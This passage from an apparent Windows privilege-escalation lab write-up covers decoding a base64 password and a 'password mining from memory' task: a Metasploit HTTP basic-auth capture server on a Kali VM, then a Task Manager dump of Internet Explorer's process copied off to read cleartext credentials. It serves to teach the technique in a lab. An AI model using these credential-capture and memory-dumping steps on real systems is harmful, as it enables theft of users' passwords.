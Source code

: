![Exploitation](/assets/img/posts/windows-privesc/task12_exploitation2.png) 

So, we take the base64 password and with the following command we can obtain the password in cleartext:
```
$ echo cGFzc3dvcmQxMjM= | base64 -d
> password123 
```

<img src="/assets/img/posts/windows-privesc/task12_meme.jpg" width="40%" height="40%">


### <span style="color: var(--link-color);">[Task 13] - Password Mining Escalation - Memory </span>
Sometimes services save the user credentials in clear text in memory. When this happens, we can dump what is saved in the memory and read the saved credentials.

> Exploitation
> 
> Kali VM
> 
> 1. Open command prompt and type: msfconsole
> 2. In Metasploit (msf > prompt) type: use auxiliary/server/capture/http_basic
> 3. In Metasploit (msf > prompt) type: set uripath x
> 4. In Metasploit (msf > prompt) type: run
> 
> Windows VM
> 
> 1. Open Internet Explorer and browse to: http://[Kali VM IP Address]/x
> 2. Open command prompt and type: taskmgr
> 3. In Windows Task Manager, right-click on the “iexplore.exe” in the “Image Name” columnand select “Create Dump File” from the popup menu.
> 4. Copy the generated file, iexplore.DMP, to the Kali VM.
> 